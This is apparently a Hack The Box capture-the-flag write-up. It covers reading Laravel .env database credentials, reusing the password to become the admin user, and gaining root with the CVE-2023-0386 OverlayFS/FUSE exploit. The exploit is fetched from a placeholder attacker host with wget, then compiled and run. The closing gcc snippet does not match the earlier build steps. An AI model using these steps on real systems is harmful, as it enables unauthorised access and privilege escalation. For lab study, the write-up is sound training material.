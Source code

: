 On the compromised system as www-data:

- Web root: /var/www/html – Laravel app confirmed (composer.json, app/, routes/, etc.).
- Found a `.env` file containing database credentials, including for the `admin` user:
  
```bash
cat /var/www/html/.env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

- Used `su admin` to switch users with password "SuperDuperPass123". Alternatively, SSH: `ssh admin@10.10.11.221` (password reuse).
- Retrieved the **user flag** from the admin's home directory: `cat /home/admin/user.txt`

![Pasted image 20250920212411](Pasted image 20250920212411.png)

![Pasted image 20250920212551](Pasted image 20250920212551.png)

Additional enum: No sudo privileges (`sudo -l` requires password, fails). Check /var/mail/admin for hints – an email from "ch4p" mentions urgent OS upgrade due to OverlayFS/FUSE CVEs.

---

## Privilege Escalation

### Kernel Exploit

As admin, check kernel version:

```bash
uname -r
5.15.70-051570-generic
```

![Pasted image 20250920215425](Pasted image 20250920215425.png)

This is Ubuntu 22.04 kernel 5.15.70, vulnerable to CVE-2023-0386 (OverlayFS/FUSE local privilege escalation). Confirmed via search: Vulnerability allows unprivileged users to gain root by exploiting a flaw in file copy-up handling.

- Quick search identified a relevant **CVE**: CVE-2023-0386.
- Exploit was downloaded from GitHub: `git clone https://github.com/xkaneiki/CVE-2023-0386` on attack box.
- Transferred to target: Host via `python3 -m http.server 8000`, download with `wget http://your_ip:8000/CVE-2023-0386.zip -O /tmp/CVE-2023-0386.zip`.
- Unzip: `unzip /tmp/CVE-2023-0386.zip -d /tmp/CVE-2023-0386`.
- Compiled: `cd /tmp/CVE-2023-0386 && make all`.
- Executed: In one terminal, `./fuse ./ovlcap/lower ./gc`; in another, `./exp`.

Root access was achieved, allowing `cat /root/root.txt`.

```bash
gcc exploit.c -o exploit
./exploit
```
